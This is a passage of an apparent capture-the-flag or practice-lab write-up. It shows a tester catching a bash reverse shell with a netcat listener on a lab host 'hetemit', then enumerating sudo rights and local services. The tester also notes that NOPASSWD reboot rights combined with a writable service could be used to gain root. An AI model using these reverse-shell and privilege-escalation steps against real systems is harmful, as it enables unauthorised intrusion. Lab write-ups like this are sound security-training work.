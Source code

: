 At this point I used the command execution to get a bash reverse shell:
![](/ox-hugo/2023-09-02_18-34-29_screenshot.png)

And I received the shell as the user cmeeks:

{{< bash-code >}}
nc -nlvp 80
(o)listening on [any] 80 ...
(o)connect to [192.168.45.229] from (UNKNOWN) [192.168.227.117] 36708
(o)bash: cannot set terminal process group (1022): Inappropriate ioctl for device
(o)bash: no job control in this shell
[cmeeks@hetemit restjson_hetemit]$ whoami
(o)whoami
(o)cmeeks
{{< /bash-code >}}

I ran `sudo -l` and saw that I had privileges to reboot the machine, which I noted as being intersting. If there was a overwritable service then having this privilege would allow me to reboot the system and when the system reboots the service would execute my command.

{{< bash-code >}}
[cmeeks@hetemit ~]$ sudo -l
sudo -l
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
{{< /bash-code >}}

I looked into the local services running:

{{< bash-code >}}
[cmeeks@hetemit restjson_hetemit]$ netstat -anlp
(o)netstat -anlp
(o)(Not all processes could be identified, non-owned process info
(o) will not be shown, you would have to be root to see it all.)
(o)Active Internet connections (servers and established)
(o)Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
(o)tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -
(o)tcp        0      0 0.0.0.0:5355            0.0.0.0:*               LISTEN      -
(o)tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -
(o)tcp        0      0 0.0.0.0:18000           0.0.0.0:*               LISTEN      1020/puma 4.3.6 (tc
(o)tcp        0      0 0.0.0.0:50000           0.0.0.0:*               LISTEN      1022/python3.6
(o)tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -
(o)tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
(o)tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -
(o)tcp        0      0 192.168.227.117:50000   192.168.45.229:41038    ESTABLISHED 1022/python3.6
(o)tcp        0      0 192.168.227.117:36708   192.168.45.229:80       ESTABLISHED 122263/bash
(o)tcp        0      0 192.168.227.117:51014   192.168.45.229:22       ESTABLISHED 122631/ssh
(o)tcp        0    139 192.168.227.117:59888   192.168.45.229:21       ESTABLISHED 122648/bash
(o)tcp        1      0 192.168.227.117:50000   192.168.45.229:43920    CLOSE_WAIT  1022/python3.6
(o)tcp6       0      0 :::445                  :::*                    LISTEN      -
(o)tcp6       0      0 :::5355                 :::*                    LISTEN      -
(o)tcp6       0      0 :::139                  :::*                    LISTEN      -
(o)tcp6       0      0 :::22                   :::*                    LISTEN      -
(o)udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
(o)udp        0      0 127.0.0.1:43404         127.0.0.1:43404         ESTABLISHED -
(o)udp        0      0 0.0.0.0:5355            0.0.0.0:*                           -